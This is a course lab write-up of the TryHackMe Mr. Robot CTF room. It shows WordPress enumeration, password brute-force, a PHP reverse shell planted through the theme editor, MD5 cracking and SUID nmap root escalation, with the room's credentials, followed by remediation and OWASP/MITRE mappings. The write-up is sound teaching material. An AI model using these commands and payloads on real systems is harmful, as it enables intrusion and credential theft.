

# Week 12 Lab — TryHackMe: Mr. Robot CTF

> **Submission date:** ~2025-03-31 · **Large Lab deliverable, Week 12**
> **Room:** [TryHackMe — Mr. Robot CTF](https://tryhackme.com/room/mrrobot) · **Difficulty:** Medium
> **Category:** WordPress enumeration + exploitation, Linux privilege escalation

Themed on the USA Network TV show *Mr. Robot*, this room asks the tester to capture three keys (`key-1-of-3.txt`, `key-2-of-3.txt`, `key-3-of-3.txt`) on a misconfigured WordPress box.

## Table of Contents

- [Attack Flow](#attack-flow)
- [Methodology](#methodology)
- [Steps 1–9](#step-1--port-scan)
- [Tool Summary](#tool-summary)
- [Key Learnings](#key-learnings)
- [Remediation Recommendations](#remediation-recommendations)
- [Mapping to OWASP Top 10](#mapping-to-owasp-top-10)
- [Mapping to MITRE ATT&CK](#mapping-to-mitre-attck)

## Attack Flow



## Methodology

1. **Reconnaissance** → Nmap port scan
2. **Web enumeration** → directory brute-forcing, `robots.txt` inspection
3. **CMS enumeration** → WordPress user discovery
4. **Credential attack** → username confirmation + password brute-force
5. **Exploitation** → authenticated PHP payload upload → reverse shell
6. **Post-exploitation** → credential reuse, hash cracking
7. **Privilege escalation** → SUID `nmap` interactive mode (older box) or equivalent

## Target Information

| Field | Value |
|---|---|
| Target IP | Ephemeral TryHackMe IP |
| Attacker | Kali Linux on VirtualBox |

---

## Step 1 — Port Scan

**Tool:** Nmap
**Reason:** identify open ports and running services as the foundation for attack planning.

**Command:**

```bash
sudo nmap -sC -sV -p- <target>
```

**Expected outcome:** discover HTTP and possibly SSH services on a Linux host.

**Actual outcome — open ports:**

- 22/tcp (SSH, filtered in some variants)
- 80/tcp (HTTP / Apache)
- 443/tcp (HTTPS)

**Finding:** single attack surface — HTTP/HTTPS. SSH is filtered, so credential-based SSH access may not be viable. The web application is the primary target.


---

## Step 2 — Initial Web Reconnaissance

**Tool:** Web browser + curl
**Reason:** manual inspection of the web application surface to understand the technology stack and discover exposed files.

Visiting `http://<target>/` presents a themed Mr. Robot terminal interface with the `fsociety` branding. Several commands in the UI reveal narrative flavor but little structural exposure.

**Check robots.txt:**

```bash
curl http://<target>/robots.txt
```

**Expected outcome:** discover hidden paths or files the developer didn't intend to be indexed.

**Actual outcome — contents:**

```text
User-agent: *
fsocity.dic
key-1-of-3.txt
```

**Finding:** `key-1-of-3.txt` is immediately readable:

```bash
curl http://<target>/key-1-of-3.txt
```

> [!TIP]
> **First key captured** — simply by checking `robots.txt`. This is why it's always the first manual check after Nmap.

`fsocity.dic` is also downloadable — a large dictionary file (~858,000 lines, many duplicates). This is the intended password wordlist for the brute-force phase.

```bash
wget http://<target>/fsocity.dic
# Deduplicate to make brute-force feasible
sort -u fsocity.dic > fsocity_unique.dic
wc -l fsocity_unique.dic   # ~11,450 unique lines
```

> [!NOTE]
> Deduplication reduced the wordlist from ~858k to ~11.5k lines — a **75× speedup** for no loss of coverage. Always deduplicate before brute-forcing.

*Evidence: robots.txt output and key-1-of-3.txt contents demonstrated live during the lab session.*

> [!NOTE]
> **Screenshot coverage:** The original DOCX submission for this room contained fewer per-step screenshots than the Pickle Rick or Boiler CTF submissions. The walkthrough below compensates with detailed command output transcriptions and step-by-step reasoning. Where screenshots are available, they are embedded; otherwise, evidence is documented textually with the same tool → reason → expected → actual rigor.

---

## Step 3 — Directory Brute-Force

**Tool:** Gobuster
**Reason:** discover hidden web paths that may reveal CMS admin panels, upload directories, or configuration files.

```bash
gobuster dir -u http://<target> -w /usr/share/wordlists/dirb/common.txt
```

**Expected outcome:** discover WordPress admin paths if the CMS is WordPress.

**Actual outcome — notable discoveries:**

- `/wp-admin` → WordPress admin login redirect
- `/wp-login.php` → login form
- `/wp-content/` → WP content (plugins/themes/uploads)
- `/license.txt` → WordPress license (fingerprint confirms WordPress)

**Finding:** WordPress confirmed. Pivot to WordPress-specific enumeration.

*Evidence: Gobuster output showing discovered WordPress paths.*

---

## Step 4 — WordPress User Enumeration

**Tool:** WPScan
**Reason:** WordPress-specific scanner that finds users, plugins, themes, and known vulnerabilities that generic tools miss.

```bash
wpscan --url http://<target>/ --enumerate u,p,t
```

**Expected outcome:** discover valid WordPress usernames for the brute-force phase.

Alternatively, WordPress's login error messages leak usernames by design:

- Submitting `admin` with wrong password → "The password you entered for the username admin is incorrect."
- Submitting `doesnotexist` with any password → "Invalid username."

> [!WARNING]
> WordPress's default login error messages confirm whether a username exists. This is a known information disclosure that most WordPress installations fail to remediate.

**Result:** `elliot` is a valid username (themed to the show's protagonist).

*Evidence: WPScan user enumeration output confirming `elliot`.*

---

## Step 5 — Password Brute-Force

**Tool:** WPScan (or Hydra)
**Reason:** with a confirmed username and a target-provided wordlist, brute-force is the intended path.

```bash
wpscan --url http://<target>/ \
  --usernames elliot \
  --passwords fsocity_unique.dic
```

**Expected outcome:** discover the correct password from the `fsocity.dic` wordlist.

**Actual outcome:** password discovered in `fsocity_unique.dic` — `ER28-0652` (Elliot's employee ID in the show).

**Login credentials:** `elliot` / `ER28-0652`

> [!NOTE]
> Because the wordlist was deduplicated (Step 2), the brute-force completed in minutes rather than hours. Wordlist optimization is a practical skill that matters in time-boxed engagements.

*Evidence: WPScan output showing successful password discovery.*

---

## Step 6 — Authenticated Exploitation — PHP Payload Upload

**Tool:** WordPress Theme Editor + php-reverse-shell.php
**Reason:** WordPress admins can edit theme PHP files directly — any admin compromise is immediately a code-execution compromise.

**Method:** WordPress admin → Appearance → Editor → overwrite a theme file (e.g., `404.php`) with a PHP reverse shell.

**Payload source:** `/usr/share/webshells/php/php-reverse-shell.php`

Edit to set `$ip` to attacker IP and `$port` to listener port.

**Listener:**

```bash
nc -lvnp 4444
```

**Trigger payload:**

```bash
curl http://<target>/wp-content/themes/<theme>/404.php
```

**Expected outcome:** reverse shell connection to attacker's netcat listener.

**Actual outcome:** reverse shell received as `daemon` (low-privilege www user).

> [!CAUTION]
> The WordPress theme editor is one of the most dangerous features in any CMS. Any admin-level compromise of WordPress gives an attacker arbitrary PHP execution — effectively full RCE on the web server.

**Shell upgrade** — convert the raw shell into an interactive PTY:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z, then on attacker:
stty raw -echo; fg; reset
```

*Evidence: reverse shell connection in netcat listener; shell upgrade to interactive PTY.*

---

## Step 7 — Second Key Discovery

**Tool:** Linux shell primitives + John the Ripper
**Reason:** enumerate user home directories and discover credential material for lateral movement.

Navigate filesystem looking for user homes:

```bash
ls -la /home
# user: robot
ls -la /home/robot
```

**Expected outcome:** find files owned by another user that may contain keys or credentials.

**Actual outcome — two files found:**

- `key-2-of-3.txt` — readable only by `robot` user (we are `daemon`)
- `password.raw-md5` — readable to us, contains a username and MD5 password hash

**Crack the hash:**

```bash
# Copy hash to attacker
echo 'c3fcd3d76192e4007dfb496cca67e13b' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 hash.txt
```

**Cracked:** `abcdefghijklmnopqrstuvwxyz` (the alphabet — a trivially weak password stored with unsalted MD5).

**Switch user:**

```bash
su robot
# Password: abcdefghijklmnopqrstuvwxyz
```

**Read second key:**

```bash
cat /home/robot/key-2-of-3.txt
```

**Second key captured.**

*Evidence: hash file contents, John the Ripper output, successful su, key contents.*

---

## Step 8 — Privilege Escalation via SUID nmap

**Tool:** `find` (SUID enumeration) + `nmap --interactive`
**Reason:** after obtaining a user-level shell, search for misconfigured SUID binaries that allow privilege escalation to root.

**SUID enumeration:**

```bash
find / -perm -4000 2>/dev/null
```

**Expected outcome:** discover SUID binaries beyond the standard set (`sudo`, `passwd`, `ping`, etc.).

**Actual outcome:** `/usr/local/bin/nmap` has the SUID bit set.

**This is a known privilege escalation** cataloged on [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#suid): older Nmap versions supported `--interactive` mode, which allowed spawning a shell that inherited Nmap's SUID privileges.

```bash
nmap --interactive
nmap> !sh
# root shell
```

Alternative (if `--interactive` not supported) — Nmap NSE scripts run as the SUID owner:

```bash
echo 'os.execute("/bin/sh")' > /tmp/shell.nse
nmap --script /tmp/shell.nse
```

> [!NOTE]
> Modern Nmap versions (post-5.x) removed `--interactive`, but the NSE script method still works. The lesson: **any SUID binary with scripting capabilities is a potential escape path.**

*Evidence: SUID enumeration output, nmap interactive shell, root confirmation.*

---

## Step 9 — Third Key

**Tool:** Linux shell primitives
**Reason:** with root access obtained, read the final key from root's home directory.

```bash
cat /root/key-3-of-3.txt
```

**Expected outcome:** third and final key readable from `/root/`.

**Actual outcome:** key retrieved successfully. All three keys captured — room complete.

> [!TIP]
> The three-key structure mirrors real engagement milestones: initial access (Key 1 — information disclosure), user-level compromise (Key 2 — lateral movement), and root-level compromise (Key 3 — full system control). Each escalation required a different technique.

---

## Tool Summary

| Tool | Purpose |
|---|---|
| **Nmap** | Port discovery, SUID binary identification |
| **curl / wget** | robots.txt inspection, file download |
| **Gobuster** | Directory brute-forcing |
| **WPScan** | WordPress user enumeration + password brute-force |
| **php-reverse-shell.php** | Reverse shell payload for authenticated RCE |
| **netcat** | Reverse shell listener |
| **John the Ripper** | MD5 hash cracking |
| **GTFOBins** | `nmap --interactive` escalation reference |

---

## Key Learnings

> [!NOTE]
> This CTF demonstrated a complete WordPress compromise chain — the same pattern responsible for thousands of real-world website breaches annually.

1. **WordPress is the single most-targeted CMS in the world.** WP-specific tooling (WPScan) finds exposures generic tools miss. Over 40% of the web runs WordPress — it is always worth checking.
2. **Don't leak wordlists.** `fsocity.dic` being downloadable told the attacker exactly what passwords to try. Any file referenced in `robots.txt` should be treated as public.
3. **Wordlist deduplication matters.** The original had ~858k lines; unique was ~11.5k — a 75× speedup for no loss of coverage. Always preprocess wordlists.
4. **Theme editor = RCE.** WordPress admins can edit PHP — any admin compromise is a code-execution compromise. Disable file editing with `define('DISALLOW_FILE_EDIT', true);` in `wp-config.php`.
5. **Password reuse is universal.** The MD5 for `robot` was published alongside the key; the user's password was trivially guessable. Unique passwords per service is a baseline expectation.
6. **SUID nmap is ancient news.** Older Nmap versions had `--interactive`; modern versions removed it. But NSE script execution still works as the SUID owner. The lesson: **any SUID binary with scripting capabilities is a privilege escalation vector.**

---

## Remediation Recommendations

> [!CAUTION]
> This WordPress installation had **no hardening whatsoever**. Every default was left in place, creating a textbook attack chain.

| # | Finding | Severity | CVSS 3.1 | Recommendation |
|---|---|---|---|---|
| 1 | Key file and wordlist in `robots.txt` | **High** | 7.5 | Remove sensitive files from web root. Audit `robots.txt` — it is not a security control, it is a public directory. |
| 2 | WordPress user enumeration via login error messages | **Medium** | 5.3 | Use generic error messages ("Invalid credentials") regardless of whether the username exists. Plugins like WPS Hide Login help. |
| 3 | Weak password (dictionary word) | **High** | 7.5 | Enforce strong password policies. Implement rate limiting and account lockout on `wp-login.php`. |
| 4 | Theme editor allows PHP modification | **Critical** | 9.8 | Add `define('DISALLOW_FILE_EDIT', true);` to `wp-config.php`. Better: restrict file-system permissions so Apache cannot write to theme directories. |
| 5 | Unsalted MD5 password storage for `robot` user | **High** | 7.5 | Use bcrypt or argon2 for password hashing. MD5 is computationally trivial to crack with modern hardware. |
| 6 | SUID bit on nmap binary | **Critical** | 8.8 | Remove SUID bit: `chmod u-s /usr/local/bin/nmap`. Audit all SUID binaries against a known-good baseline. |
| 7 | No web application firewall | **Medium** | 5.0 | Deploy ModSecurity or cloud WAF to detect brute-force attempts and payload uploads. |

---

## Mapping to OWASP Top 10

| Finding | OWASP category |
|---|---|
| fsocity.dic downloadable | **A05 Security Misconfiguration** |
| WordPress user enum leakage | **A07 Auth Failures** |
| Weak password (dictionary) | **A07 Auth Failures** |
| Theme editor unrestricted | **A01 Broken Access Control** |
| Unsalted MD5 password storage | **A02 Cryptographic Failures** |
| SUID nmap | **A05 Misconfiguration** |

---

## Mapping to MITRE ATT&CK

| Step | Tactic → Technique |
|---|---|
| Nmap scan | Reconnaissance → [T1595 Active Scanning](https://attack.mitre.org/techniques/T1595/) |
| robots.txt key exposure | Reconnaissance → [T1592 Gather Victim Host Information](https://attack.mitre.org/techniques/T1592/) |
| Gobuster directory enumeration | Reconnaissance → [T1595.003 Wordlist Scanning](https://attack.mitre.org/techniques/T1595/003/) |
| WPScan user enumeration | Reconnaissance → [T1589 Gather Victim Identity Information](https://attack.mitre.org/techniques/T1589/) |
| WPScan brute-force | Credential Access → [T1110.001 Password Guessing](https://attack.mitre.org/techniques/T1110/001/) |
| Theme editor PHP upload | Persistence → [T1505.003 Web Shell](https://attack.mitre.org/techniques/T1505/003/) |
| Reverse shell | Execution → [T1059.004 Unix Shell](https://attack.mitre.org/techniques/T1059/004/) |
| MD5 hash cracking | Credential Access → [T1110.002 Password Cracking](https://attack.mitre.org/techniques/T1110/002/) |
| SUID nmap escalation | Privilege Escalation → [T1548.001 Setuid and Setgid](https://attack.mitre.org/techniques/T1548/001/) |

---

*Walkthrough back-reference:* [Course README](../README.md) · [Midterm: Pickle Rick](midterm-pickle-rick.md) · [Final: Boiler CTF](final-boiler-ctf.md)
